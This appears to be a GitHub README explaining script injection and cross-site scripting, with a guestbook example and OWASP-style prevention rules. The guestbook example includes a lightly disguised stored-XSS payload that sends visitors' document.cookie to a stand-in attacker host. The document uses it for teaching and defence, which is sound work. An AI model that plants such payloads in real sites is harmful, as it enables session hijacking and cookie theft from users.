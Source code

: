 # Script Injection

# What?
* Code injection in general is when some code is placed (injected) into a vulnerable program.

* Much like a injecting drugs, this will have a serious effect - and this won't always be a good thing. Like injecting a local anesthetic to allow a friendly operation on your teeth :


![](http://weknowyourdreamz.com/images/teeth/teeth-01.jpg)


or a hard class A that will lead to a life of theft and no teeth, ![no teeth](http://4.bp.blogspot.com/_B1LlYh6iKqs/TLD7j0p2rsI/AAAAAAAAC-Y/CwVAtJA8MmA/s1600/rotten-teeth-6.jpg)

there are benign and malign code injections.

### Benign
* Introduce a useful new column that did not appear in the original design of a search results page.

* Offer a new way to filter, order, or group data by using a
field not exposed in the default functions of the original design.

* As with programs like Dropbox, add special parts that could be used to connect to online resources in an offline program.




### Malign

* Often disastrous!

* Change, add, or remove internal code with a possibility of doing anything.

* Steal cookies - data, passwords, session IDs etc.

* Used to set up elaborate fishing scams.

* Could even be used to propagate a worm, which could entirely destroy all the code.



# How?

* A web server has a guestbook script, which accepts small messages from users, and typically receives messages such as

--- Very nice site!

However a malicious person may know of a code injection vulnerability in the guestbook, and enters a message such as (the ## are in place of < as READme files will also ignore script tags!)

Nice site,  I think I'll take it.

--- ##script> document.location="http://some_attacker/cookie.cgi?" + document.cookie ##close/script>

If another user views the page then the injected code will be executed. This code can allow the attacker to impersonate another user. However this same software bug can be accidentally triggered by an unassuming user which will cause the website to display bad HTML code.


# Preventing XSS

Here are some rules for XSS prevention. Usually rules 1 and 2 are enough.
+ RULE 0 - Never Insert Untrusted Data Except in Allowed Locations. Never put untrusted data in the following slots:

```
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script

<!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment

<div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name

<NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name

<style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

+ RULE 1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content

```
<body>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</body>

<div>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</div>

any other normal HTML elements

```
Characters to escape:

```
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;    
/ --> &#x2F;
```

Example checking for HTML and XML characters:

```
document.getElementById("search").addEventListener("keyup", function() {
  input = document.getElementById('search').value;
  var char = ["<",">","/","\"","\'","&"];
  var okay = true;

  // input = input.replace(/</g, "&lt;").replace(/>/g, "&gt;");
  if (input.length >= 3) {
    char.forEach(function(el){
      if(input.indexOf(el) > -1){
        okay=false;
        alert("letters only");
        return "error";

      }
    });
    if(okay===true){
      sendInputToBackEnd(input);
    }
}

```

+ RULE 2 - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes

```
<div attr=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...>content</div>     inside UNquoted attribute

<div attr='...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'>content</div>   inside single quoted attribute

<div attr="...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">content</div>   inside double quoted attribute

```

+ RULE 3 - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
+ RULE 4 - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
+ RULE 5 - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
More on prevention rules [here](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#HTML_entity_encoding)



## References

* [XSS article](http://www.thegeekstuff.com/2012/02/xss-attack-examples/)
* [video on cross scripting](https://www.youtube.com/watch?v=OVLz6RgOjIY)
* [video on cross scripting](https://www.youtube.com/watch?v=V79Dp7i4LRM)
* [Further articles on code injection](https://en.wikipedia.org/wiki/Code_injection)
* [Article on prevention](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#HTML_entity_encoding)
